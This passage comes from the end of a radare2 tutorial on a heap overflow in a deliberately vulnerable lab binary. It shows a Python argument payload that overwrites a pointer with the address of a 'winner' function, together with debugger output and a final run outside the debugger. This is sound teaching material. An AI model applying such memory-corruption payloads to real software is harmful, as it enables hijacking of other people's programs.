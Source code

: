 During the exeecution we got a segfault as we predict because the binary tried to execute the function at the address 0x30303030 (thanks to our second argument). We can see with the command `drr` that this address is in the eip so we are good to go !

Let's replace, the 0000 with the winner's address :
```
[0xf7f76079]> ood `!python -c "print 'AAAABBBBCCCCDDDDEEEE\x1c\xc0\x04\x08 \xa2\x91\x04\x08'"`
Wait event received by different pid 13539
Process with PID 13544 started...
File dbg:///home/zigzag/Documents/survival-guide-radare2/heap_overflow/heapOvf  AAAABBBBCCCCDDDDEEEE � reopened in read-write mode
= attach 13544 13544
Unable to find filedescriptor 3
Unable to find filedescriptor 4
Unable to find filedescriptor 5
Unable to find filedescriptor 6
Unable to find filedescriptor 3
Unable to find filedescriptor 4
Unable to find filedescriptor 5
Unable to find filedescriptor 6
13544
[0xf7f550b0]> dc
and we have a winner @ 1552846860
[0xf7f53079]> 
```
That's it ! We have executed our function !\
Last step, we need to know if it works outside radare, but normally it does.
```
zigzag@System:~/Documents/survival-guide-radare2/ $ ./heapOvf $(python -c "print 'AAAABBBBCCCCDDDDEEEE\x1c\xc0\x04\x08 \xa2\x91\x04\x08'")
and we have a winner @ 1552847092
```
Here we go, everything works as expected !

Thanks for reading guys and I hope you have learnt some new stuff :)